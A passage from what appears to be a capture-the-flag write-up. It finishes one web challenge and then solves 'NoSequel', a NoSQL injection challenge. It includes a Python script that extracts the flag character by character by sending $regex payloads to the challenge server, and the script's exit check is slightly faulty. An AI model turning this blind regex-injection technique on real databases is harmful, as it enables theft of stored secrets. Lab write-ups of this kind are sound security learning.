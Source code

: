 After checking that the injection was successful, we did not get the `flag`. After I searched the source, I found that we need to buy it again to `authenticate` so that the system can return the `flag` to us.

![image](https://hackmd.io/_uploads/By7Cedfzel.png)

![image](https://hackmd.io/_uploads/Sy-gWOzGgg.png)

![image](https://hackmd.io/_uploads/rkwWWdMGxe.png)

`flag: flag{b1bd4795215a7b81699487cc7e32d936}`

---

## NoSequel

IIn this challenge said all is `no sql`, after a while injecting query then i realized that need to send `flag` in query and only regex is used

![image](https://hackmd.io/_uploads/H14GruzGgl.png)

and

![image](https://hackmd.io/_uploads/ryMBBufzgg.png)

and what we need to do is compare if the string we enter is the same as the `flag` then it will return `Pattern matched` otherwise it will be an `error`

![image](https://hackmd.io/_uploads/BkiFSOGGgl.png)

![image](https://hackmd.io/_uploads/SkPbUOGGxx.png)

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor

url = "http://challenge.nahamcon.com:30580/search"
chars = string.ascii_letters + string.digits + "}"
flag =  "flag{"

def test_char(known_flag, char):
    payload = f'{% raw %}flag: {{$regex: "{known_flag}{char}"}}{% endraw %}'
    data = {
        'query': payload,
        'collection': 'flags'
    }
    response = requests.post(url, data=data)
    return char if "Pattern matched" in response.text else None

for i in range(50): 
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(test_char, flag, char) for char in chars]
        found = False
        for future in futures:
            result = future.result()
            if result:
                flag += result
                print(f"[+] Found: {flag}")
                found = True
                break
        if not found and "}" in result:
            print("[-] Done or blocked.")
            break
```